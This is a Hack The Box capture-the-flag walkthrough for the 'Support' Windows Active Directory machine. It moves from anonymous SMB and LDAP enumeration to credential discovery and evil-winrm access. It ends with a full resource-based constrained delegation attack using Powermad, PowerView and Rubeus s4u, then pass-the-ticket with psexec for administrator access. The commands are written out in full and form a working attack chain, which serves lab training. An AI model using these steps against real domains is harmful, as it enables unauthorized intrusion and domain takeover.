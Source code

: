 ```yaml
---
title: "Support Walkthrough(HTB)"
date: 2025-03-13
draft: true 
description: "Support is an Easy difficulty Windows machine that features an SMB share that allows anonymous authentication....."
tags: ["Easy", "Windows", "HTB", "Hacking", "Active Directory", "Walkthrough"]
series: ["Hack The Box"]
series_order: 6
---
```

## Reconnaissance #Windows #ActiveDirectory 
- Got multiple ports open
- ![[Pasted image 20241221142512.png]]
- As always we got LDAP, Netbios, SMB etc ports open
## Enumeration
- Done SMB enumeration `smbclient -L support.htb`
- ![[Pasted image 20241221143207.png]]
- We got a new directory called support-tools
- It seems we got guest login for smb
```
netexec smb support.htb -u sundeity -p ""
```
- We have access for two shares as guest
```
netexec smb support.htb -u sundeity -p "" --shares
```
- ![[Pasted image 20241221143552.png]]
- We got some tools inside the directory
- ![[Pasted image 20241221143832.png]]
- First let me get all the zips and then we can enumerate
- Got nothing from those files so enumerated ldap
```
nmap -n -sV --script "ldap* and not brute" -p 389 support.htb
```
- ![[Pasted image 20241221145020.png]]
- Then enumerated for users using netexec from smb
- Narrowed down the users to a list
```
cat users.txt | grep "SidTypeUser" | cut -d '\' -f 2 | cut -d '(' -f 1 >> users-smb.txt
```
- ![[Pasted image 20241221145402.png]]
- Stored the users in a file.
- Remember the file UsersInfo.exe.zip we have downloaded from SMB.
- On running it with wine we can see that it authenticate to ldap for retrieving the user we requested
- ![[Pasted image 20241221210746.png]]
- If we capture the traffic in wireshark we can get the password.
- ![[Pasted image 20241221210900.png]]
- As we can see it authenticating as user ldap with password
- Getting data for Bloodhound
- ![[Pasted image 20241221211206.png]]
- If we search the results of ldapsearch , particularly in info field which by the way looks like a password.
## Exploitation
```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w '<password' -b "DC=support,DC=htb" | grep "info"
```
- ![[Pasted image 20241221212252.png]]
- We got this password from the user `support@support.htb`
- User support is member of three groups
- ![[Pasted image 20241221213052.png]]
- `crackmapexec` confirms the password for support user
```
crackmapexec winrm support.htb -u users-smb.txt -p <password>
```
- ![[Pasted image 20241221213417.png]]
- Now login with evil-winrm by the user Support and with their password
```
evil-winrm -u support -p '<password>' -i support.htb 
```
- Get the user flag
- ![[Pasted image 20241221213908.png]]
## Privilege Escalation
- If we see, user Support in a group called `Shared Support Accounts@Support.htb` . That group have Generic all permissions over Domain controller Itself.
- ![[Pasted image 20241222182550.png]]
- This privilege allows the trustee to manipulate the target object however they wish.
- We can abuse this by the help instructions in Bloodhound for this Privilege
- Here I am going to create a Fake computer under my control and Act as DC to get kerberos ticket
- **Tools Required**
	- PowersView.ps1
	- Powermad.ps1
	- Rubeus.exe(Pre build from [SharpCollection](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.5_x64))
- **Step 1:**
	- Upload all the tools to target system, here to Support user's PC
	- `cd C:\\programdata`
	- `upload  PowersView.ps1`
	- `upload Powermad.ps1`
	- `upload Rubeus.exe`
	- ![[Pasted image 20241222185340.png]]
- **Step 2:**
	- Invoking all the scripts
```
. .\PowerView.ps1
```

```
. .\Powermad.ps1
```
- **Step 3-Creating a Fake Computer**
```
New-MachineAccount -MachineAccount <Computername> -Password $(ConvertTo-SecureString '<Password>' -AsPlainText -Force)
```
- We need SID of the computer that we created so we assign that value to a variable
```
$fakesid = Get-DomainComputer <Computername> | select -expand objectsid
```
- **Step 4-Configuring**
	- Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```
$SD.GetBinaryForm($SDBytes, 0)
```

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
- ![[Pasted image 20241222185607.png]]
- **Step 5-Auth as the Computer**
```
.\Rubeus.exe hash /password:<Password> /user:<ComputerName> /domain:support.htb
```
- Now copy the `rc4_hmac` hash  from the output
- ![[Pasted image 20241222185715.png]]

- **Step 6-Get the Kerberos Ticket**

```
.\Rubeus.exe s4u /user:<Computername>$ /rc4:<Hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- Now ticket will be captured
- ![[Pasted image 20241222185806.png]]
- Copy the ticket for Administrator and put in a file `ticket.kirbi.b64`
- Remove all the whitespaces and unwanted line I have done this in vim using this command `:%s/\s\+//g`
- Now decode the base64 into a different file
```
base64 -d tick.kirbi.b64 > ticket.kirbi
```
- For linux systems have to convert the form `kirbi` to `ccahe` to pass the ticket
- Using `ticketConverter.py` finish this job
```
sudo /home/n_emperor/.local/share/pipx/venvs/netexec/bin/ticketConverter.py ticket.kirbi ticket.ccache
```
- ![[Pasted image 20241222190321.png]]
- Now **Pass the ticket for a shell**
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
- ![[Pasted image 20241222190446.png]]
- Root flag has been secured
- ![[Pasted image 20241222190524.png]]

